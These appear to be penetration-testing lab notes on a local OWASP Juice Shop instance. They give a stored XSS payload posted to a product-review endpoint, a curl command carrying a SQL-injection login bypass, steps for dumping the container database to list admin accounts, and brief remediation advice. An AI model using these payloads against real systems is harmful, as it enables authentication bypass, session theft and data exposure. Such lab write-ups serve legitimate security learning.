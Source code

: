 - Save this notes file and `common-small.txt` under `~/lab`.  
- Redact tokens and secrets before committing or sharing.  
- Keep screenshots and raw responses in `artifacts/` and do not push secrets to public repos.

End of report.

### PoC: Stored XSS — Product 1 — 2025-10-23
**Target:** http://127.0.0.1:3000/#/product/1  
**Payload:** `<p>poc-xss-01</p><svg/onload=console.log("poc-xss-01")>`  
**How submitted:** POST /rest/products/1/reviews with Bearer token (admin)  
**Artifacts:**  
 - Request body: artifacts/requests/xss_payload.json  
 - Raw POST request/response: artifacts/responses/xss_response.txt  
 - Product page HTML: artifacts/responses/product_1.html  
 - Product API raw: artifacts/responses/product_1_api_raw.txt  
**Impact:** Stored XSS.  

## PoC: Admin accounts & Stored XSS (2025-10-24) - quick summary
**Target:** http://192.168.99.128:3000  
**Author:** dinnie  
**Date:** 2025-10-24

### Summary
Recovered the application SQLite DB from the local container, enumerated the `Users` table and confirmed multiple admin accounts. Also validated a stored-XSS payload on Product 1. All testing performed in lab environment only.

### Key findings
- DB located and copied: `~/lab/juice-shop/container_dump/juice-shop/data/juiceshop.sqlite` (local copy; removed after redaction/archival).
- Admin user IDs (redacted evidence): `1, 4, 6, 9, 10, 12, 22`. See artifact: `~/lab/juice-shop/artifacts/idor/admin_users_redacted.csv`.
- Stored XSS PoC (Product 1): payload `<p>poc-xss-01</p><svg/onload=console.log("poc-xss-01")>` stored via `POST /rest/products/1/reviews`. Artifacts: `~/lab/juice-shop/artifacts/requests/xss_payload.json`, `~/lab/juice-shop/artifacts/responses/xss_response_redacted.txt`.

### Repro (high-level)
1. Extract container files: `sudo docker cp <container>:/juice-shop ~/lab/juice-shop/container_dump`  
2. Open local DB: `sqlite3 ~/lab/juice-shop/db_inspect/juice_shop.db` and query `Users` table.  
3. Perform login SQLi (lab): `curl -X POST -d '{"email":"'\'' OR '\''1'\''='\''1'\''--","password":"password"}' http://192.168.99.128:3000/rest/user/login` to reproduce token generation (do not store tokens in notes).  
4. Stored XSS PoC: `POST /rest/products/1/reviews` with payload; verify on `/product/1`.

### Impact & remediation (brief)
- **Impact:** Admin accounts & DB exposure in production would allow privilege escalation and data exfiltration. Stored XSS can result in session theft or CSRF in a real environment.  
- **Remediation:** Protect `.git`/.env, do not publish DBs, validate/encode inputs, use CSP, avoid printing stack traces.
